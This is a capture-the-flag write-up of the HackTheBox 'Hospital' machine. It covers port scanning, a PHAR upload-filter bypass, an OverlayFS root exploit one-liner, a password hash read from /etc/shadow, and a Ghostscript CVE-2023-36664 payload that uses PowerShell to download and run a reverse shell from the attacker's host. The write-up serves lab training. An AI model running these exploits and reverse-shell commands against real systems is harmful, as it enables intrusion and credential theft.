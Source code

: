 ```yaml
---
title: "Hospital Write-Up - HackTheBox"
description: "Medium Seasonal HackTheBox machine"
pubDatetime: 2023-11-26
tags: ["media", "htb", "season3", "file upload", "cve-exploitation"]
---
```


## Table of contents

## Enumeration

First of all, we do a broad port scan enumeration:

~~~bash
# Nmap 7.94 scan initiated Sat Nov 18 23:39:13 2023 as: /usr/bin/nmap -sS -p- --min-rate 3000 -n -Pn -vvv -oG openPorts 10.10.11.241
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.10.11.241 ()	Status: Up
Host: 10.10.11.241 ()	Ports: 22/open/tcp//ssh///, 53/open/tcp//domain///, 88/open/tcp//kerberos-sec///, 135/open/tcp//msrpc///, 139/open/tcp//netbios-ssn///, 389/open/tcp//ldap///, 443/open/tcp//https///, 445/open/tcp//microsoft-ds///, 464/open/tcp//kpasswd5///, 593/open/tcp//http-rpc-epmap///, 636/open/tcp//ldapssl///, 1801/open/tcp//msmq///, 2103/open/tcp//zephyr-clt///, 2105/open/tcp//eklogin///, 2107/open/tcp//msmq-mgmt///, 2179/open/tcp//vmrdp///, 3268/open/tcp//globalcatLDAP///, 3269/open/tcp//globalcatLDAPssl///, 3389/open/tcp//ms-wbt-server///, 5985/open/tcp//wsman///, 6404/open/tcp//boe-filesvr///, 6406/open/tcp//boe-processsvr///, 6407/open/tcp//boe-resssvr1///, 6409/open/tcp//boe-resssvr3///, 6613/open/tcp/////, 6618/open/tcp/////, 8080/open/tcp//http-proxy///, 9389/open/tcp//adws///, 10358/open/tcp/////	Ignored State: filtered (65506)
# Nmap done at Sat Nov 18 23:39:57 2023 -- 1 IP address (1 host up) scanned in 43.92 seconds
~~~

Then we can target the detected ports:

~~~bash
# Nmap 7.94 scan initiated Sat Nov 18 23:40:17 2023 as: nmap -p22,53,88,135,139,389,443,445,464,593,636,1801,2103,2105,2107,2179,3268,3269,3389,5985,6404,6406,6407,6409,6613,6618,8080,9389,10358 -sCV -oN target 10.10.11.241
Nmap scan report for 10.10.11.241
Host is up (0.11s latency).

PORT      STATE SERVICE           VERSION
22/tcp    open  ssh               OpenSSH 9.0p1 Ubuntu 1ubuntu8.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 e1:4b:4b:3a:6d:18:66:69:39:f7:aa:74:b3:16:0a:aa (ECDSA)
|_  256 96:c1:dc:d8:97:20:95:e7:01:5f:20:a2:43:61:cb:ca (ED25519)
53/tcp    open  domain            Simple DNS Plus
88/tcp    open  kerberos-sec      Microsoft Windows Kerberos (server time: 2023-11-19 05:40:25Z)
135/tcp   open  msrpc             Microsoft Windows RPC
139/tcp   open  netbios-ssn       Microsoft Windows netbios-ssn
389/tcp   open  ldap              Microsoft Windows Active Directory LDAP (Domain: hospital.htb0., Site: Default-First-Site-Name)
443/tcp   open  ssl/http          Apache httpd 2.4.56 ((Win64) OpenSSL/1.1.1t PHP/8.0.28)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ldapssl?
1801/tcp  open  msmq?
2103/tcp  open  msrpc             Microsoft Windows RPC
2105/tcp  open  msrpc             Microsoft Windows RPC
2107/tcp  open  msrpc             Microsoft Windows RPC
2179/tcp  open  vmrdp?
3268/tcp  open  ldap              Microsoft Windows Active Directory LDAP (Domain: hospital.htb0., Site: Default-First-Site-Name)
3269/tcp  open  globalcatLDAPssl?
5985/tcp  open  http              Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
6404/tcp  open  msrpc             Microsoft Windows RPC
6406/tcp  open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
6407/tcp  open  msrpc             Microsoft Windows RPC
6409/tcp  open  msrpc             Microsoft Windows RPC
6613/tcp  open  msrpc             Microsoft Windows RPC
6618/tcp  open  msrpc             Microsoft Windows RPC
8080/tcp  open  http              Apache httpd 2.4.55 ((Ubuntu))
9389/tcp  open  mc-nmf            .NET Message Framing
10358/tcp open  msrpc             Microsoft Windows RPC
...
~~~

## Initial foothold (port 8080)

There is a web service running under port 8080.

![](@assets/HackTheBox/Hospital/index.png)

After creating an account we can upload images. They get uploaded to an `/uploads` folder.

![](@assets/HackTheBox/Hospital/upload.png)

After capturing the upload request with burpsuite I notice there is an extension blacklist but we can bypass it by uploading a **.PHAR** file.

![](@assets/HackTheBox/Hospital/phar_bypass.png)

There are some blocked functions as seen from the phpinfo() output.

![](@assets/HackTheBox/Hospital/disable_funtions.png)

Still can execute system commands with a less php [function](https://www.php.net/manual/en/function.popen.php) called `popen()`.

![](@assets/HackTheBox/Hospital/popen.png)

![](@assets/HackTheBox/Hospital/output.png)

Upload a shell script with wget, give it permissions and execute it.

![](@assets/HackTheBox/Hospital/shell.png)

We receive a shell as `www-data` but in a machine called **webserver**, not hospital.

![](@assets/HackTheBox/Hospital/shell1.png)

### Local privilege escalation

The target is running an ubuntu version with a kernel vulnerable to [CVE-2023-2640 & CVE-2023-32629](https://www.crowdstrike.com/blog/crowdstrike-discovers-new-container-exploit/)

The PoC to obtain a shell as root is pretty straight-forward:

~~~bash
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;
setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("bash")'
~~~

Once as root we can read the `/etc/shadow` file to try and crack the `drwilliams` user password as I tested is an user of the main machine:

![](@assets/HackTheBox/Hospital/drwilliams0.png)

![](@assets/HackTheBox/Hospital/hash.png)

![](@assets/HackTheBox/Hospital/drwilliams.png)

## Roundcube (port 443)

Under port 443 there is running a mail service called [roundcube](https://roundcube.net/).

![](@assets/HackTheBox/Hospital/main.png)

We can login reusing user and password from `drwilliams`. We see a mail from **drbrown@hospital.htb** asking us to send an **.eps** file so he can open it with Ghostscript.

![](@assets/HackTheBox/Hospital/eps.png)

## GhostScript exploit

Looking up to exploits regarding Ghostscript I found a recent [critical RCE](https://www.bleepingcomputer.com/news/security/critical-rce-found-in-popular-ghostscript-open-source-pdf-library/) that affects all Ghostscript versions before 10.01.2, and is triggered by opening an **.eps** file. 

I found a PoC on github: [https://raw.githubusercontent.com/jakabakos/CVE-2023-36664-Ghostscript-command-injection/main/CVE_2023_36664_exploit.py](https://raw.githubusercontent.com/jakabakos/CVE-2023-36664-Ghostscript-command-injection/main/CVE_2023_36664_exploit.py)

~~~bash
❯ wget https://github.com/jakabakos/CVE-2023-36664-Ghostscript-command-injection/raw/main/CVE_2023_36664_exploit.py
...
❯ python CVE_2023_36664_exploit.py -g -p "powershell IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.82:4444/shell.ps1')" -x eps
[+] Generated EPS payload file: malicious.eps
~~~

>For this to work i will be hosting the `shell.ps1` on a python http server. The payload I used is [powershell-reverse-shell.ps1](https://github.com/martinsohn/PowerShell-reverse-shell/raw/main/powershell-reverse-shell.ps1).

~~~bash
❯ ls
 CVE_2023_36664_exploit.py   malicious.eps   shell.ps1

❯ python3 -m http.server 80                                                                                                          
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
~~~

Now I set up my listener and send the exploit to the victim.

![](@assets/HackTheBox/Hospital/send.png)

After a little while I receive the shell and the user flag.

![](@assets/HackTheBox/Hospital/shell2.png)

Looking for interesting files we find the user password in a file inside the `Documents` folder:

![](@assets/HackTheBox/Hospital/password.png)

![](@assets/HackTheBox/Hospital/evil.png)

## Privilege escalation

For privilege escalation it will be very easy.

Looking at the web server folder privileges, notice we have write permissions, so we can simply upload a webshell and run commands as an NT AUTHORITY user:

![](@assets/HackTheBox/Hospital/icacls.png)

![](@assets/HackTheBox/Hospital/shell3.png)

From here we can just send us a shell or simply read the flag.

![](@assets/HackTheBox/Hospital/root.png)

**Happy Hacking!**

